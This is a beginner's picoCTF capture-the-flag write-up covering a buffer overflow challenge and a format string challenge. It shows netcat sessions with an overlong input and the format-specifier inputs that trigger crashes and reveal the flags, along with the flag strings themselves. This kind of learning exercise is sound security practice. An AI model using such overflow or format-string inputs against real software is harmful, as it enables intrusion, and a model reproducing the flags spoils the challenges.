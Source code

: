 # Binary exploitation 
## Buffer overflow 0 
So i got very lucky with this one.
The source and the program would not open regardless of what I did. To my computer it simply did not exist. 
So i played around with the program trying to figure out what it was meant to do.
It would exit regardless of what input i gave. The name of the challenge was buffer overflow 0 so the thought process was "What if my input was just very long" cause there had to be a max limit to the input.
Turns out i was right.
I did look at the write up of this online to check the what the source and program were.
```
springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: a
The program will exit now
 
springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: 3
The program will exit now

springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: w7ieyhdw bhjlygfp72
The program will exit now

springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: 249872-398741982hdkeibfwyeugdkq8iw783yr3wuifbq
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
## format string 0
Hint 2 said "to try out different options. 
While Hint 1 made us look at different format specifiers in C. <br>
```Gr%114d_Cheese```
Looked stood out to me because of the %114d. Its supposed to print a character with 114 characters and it triggers the program to serve Patrick.
Similarly with ```Cla%sic_Che%s%steak```
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
